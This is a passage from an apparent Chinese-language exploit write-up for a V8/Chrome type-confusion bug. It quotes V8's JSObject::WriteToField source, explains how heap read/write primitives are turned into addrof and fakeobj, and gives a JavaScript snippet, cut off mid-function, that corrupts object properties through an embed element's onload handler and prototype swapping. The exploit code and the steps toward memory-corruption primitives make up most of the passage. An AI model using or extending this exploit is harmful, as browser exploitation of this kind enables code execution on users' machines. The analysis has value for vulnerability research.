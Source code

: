 注意：这个对象地址读取虽然看起来不需要 JIT，但是实际是需要的。直接用 `object2.corrupted_prop` 读取是失败的，调试后发现是由于字节码解释器的属性搜索算法影响了利用，所以最终还是使用一个函数对象来读取属性。

```CPP
void JSObject::WriteToField(InternalIndex descriptor, PropertyDetails details,
                            Object value) {
  DCHECK_EQ(kField, details.location());
  DCHECK_EQ(kData, details.kind());
  DisallowGarbageCollection no_gc;
  FieldIndex index = FieldIndex::ForDescriptor(map(), descriptor);
  if (details.representation().IsDouble()) {
    // Manipulating the signaling NaN used for the hole and uninitialized
    // double field sentinel in C++, e.g. with bit_cast or value()/set_value(),
    // will change its value on ia32 (the x87 stack is used to return values
    // and stores to the stack silently clear the signalling bit).
    uint64_t bits;
    if (value.IsSmi()) {
      bits = bit_cast<uint64_t>(static_cast<double>(Smi::ToInt(value)));
    } else if (value.IsUninitialized()) {
      bits = kHoleNanInt64;
    } else {
      DCHECK(value.IsHeapNumber());
      bits = HeapNumber::cast(value).value_as_bits();
    }
    auto box = HeapNumber::cast(RawFastPropertyAt(index));
    box.set_value_as_bits(bits);
  } else {
    FastPropertyAtPut(index, value);
  }
}
```

总结一下现在有两个能力：

- POC 中展示的：读、写堆上任意地址
- 我扩展出的能力：读对象的 elements 和 properties

综合这两个能力，先读取一个对象数组的 elements，再利用堆内存读取，读到 elements 中存储的内容，就实现了 addrof。利用 addrof 读取到另一个浮点数数组的地址，再利用堆内存写入，把浮点数数组的 elements 修改为指向一个对象数组的 elements，那么之后这两个数组就指向了同样的存储区域。将地址从浮点数组写入，再从对象数组读出，就实现了 fakeobj。另外如果是将对象从对象数组写入，在从浮点数组读出，就是一个更加稳定的 addrof。

读取数组 elements 的代码片段：

```javascript
createCorruptedPair = (proto, value_1, value_2) => {
	setPropertyViaEmbed = (object, value, handler) => {
		const embed = document.createElement('embed');
		embed.onload = handler;
		embed.type = 'text/html';
		Object.setPrototypeOf(proto, embed);
		document.body.appendChild(embed);
		object.corrupted_prop = value;
		embed.remove();
	}

  const object_1 = {
    __proto__: proto
  };
  object_1.regular_prop = 1;


  setPropertyViaEmbed(object_1, value_2, () => {
    Object.setPrototypeOf(proto, null);
    object_1.corrupted_prop = value_1;
  });


```